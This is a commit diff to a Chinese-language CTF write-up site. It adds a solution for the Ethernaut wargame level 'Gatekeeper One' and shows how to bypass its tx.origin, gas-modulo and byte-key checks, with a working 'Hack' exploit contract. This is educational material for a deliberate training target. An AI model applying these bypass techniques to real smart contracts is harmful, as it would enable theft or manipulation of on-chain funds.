

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 19481 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 19732 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 13

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -847,7 +847,7 @@ contract Privacy {
   bool public locked = true;
 
   // slot 1
-  uint256 public ID = block.timestamp;
+  uint256 public ID = block.timestamp;  // uint256 is 32 bytes long
 
   // slot 2
   uint8 private flattening = 10;
@@ -906,3 +906,108 @@ contract Privacy {
 ### 参考资料
 
 [Accessing Private Data | Solidity by Example](https://solidity-by-example.org/hacks/accessing-private-data/)
+
+## 13. Gatekeeper One
+
+越过守门人并注册为参赛者
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+import '@openzeppelin/contracts/math/SafeMath.sol';
+
+contract GatekeeperOne {
+
+  using SafeMath for uint256;
+  address public entrant;
+
+  modifier gateOne() {
+    require(msg.sender != tx.origin);
+    _;
+  }
+
+  modifier gateTwo() {
+    require(gasleft().mod(8191) == 0);
+    _;
+  }
+
+  modifier gateThree(bytes8 _gateKey) {
+      // uint64 is 8 bytes long
+      // _gateKey % 2^32 == _gateKey % 2^16
+      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
+      // _gateKey % 2^32 != _gateKey
+      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
+      // _gateKey % 2^32 == tx.origin % 2^16
+      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
+    _;
+  }
+
+  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
+    entrant = tx.origin;
+    return true;
+  }
+}
+```
+
+- 使用与 [Telephone](#4-telephone) 相同的方式通过 `gateOne`
+- 至于 `gateTwo`，在 Remix 的 JavaScript VM 环境下通过 Debug 来获取具体所需汽油量
+    - **注意**：不同版本的 EVM 或编译器都会导致不同的汽油消耗量
+    - 首先选择一个较大的汽油量，如 `90000`
+    - 执行完成后，进入 `DEBUGGER`，执行到 `mod` 这一步，此时可查看参与模运算两个局部变量的值，其中 `a` 就对应了当前剩余的汽油量，为 `89746`<br>
+![89746](img/ethernaut04.jpg)
+
+    - 由此可计算出通过 `gateTwo` 实际需要的最少汽油量：$90000-89746+8191=8445$
+- 对于 `gateThree`，用 $A_0A_1...A_7$ 来表示 `_gateKey` 的各个字节
+    - `part one` 需满足 $A_4A_5A_6A_7 = A_6A_7$
+    - `part two` 需满足 $A_4A_5A_6A_7 \neq A_0A_1...A_7$
+    - `part three` 需满足 $A_4A_5A_6A_7 = B_6B_7$ （视作 `tx.origin` 后两个字节）
+    - 也就是说，`_gateKey` 只需要后两个字节与 `tx.origin` 一致，倒数三四字节为 $0$，剩下四个字节不为 $0$ 就可以了 >v<
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';
+
+contract GatekeeperOne {
+
+  using SafeMath for uint256;
+  address public entrant;
+
+  modifier gateOne() {
+    require(msg.sender != tx.origin);
+    _;
+  }
+
+  modifier gateTwo() {
+    require(gasleft().mod(8191) == 0);
+    _;
+  }
+
+  modifier gateThree(bytes8 _gateKey) {
+      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
+      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
+      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
+    _;
+  }
+
+  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
+    entrant = tx.origin;
+    return true;
+  }
+}
+
+contract Hack {
+  function exploit(address instance) public {
+    GatekeeperOne gk = GatekeeperOne(instance);
+    bytes8 _gateKey = bytes8(uint64(msg.sender) & 0xff0000ffff);
+    gk.enter{gas: 8445}(_gateKey);
+  }
+}
+```
+
+### 参考资料
+
+- [Solidity variables — storage, type conversions and accessing private variables](https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183)
+- [solidity - Why does Remix's jsVM show incorrect gas? - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/84670/why-does-remixs-jsvm-show-incorrect-gas)
````
Also changed, not shown: docs/wargames/img/ethernaut04.jpg (added).
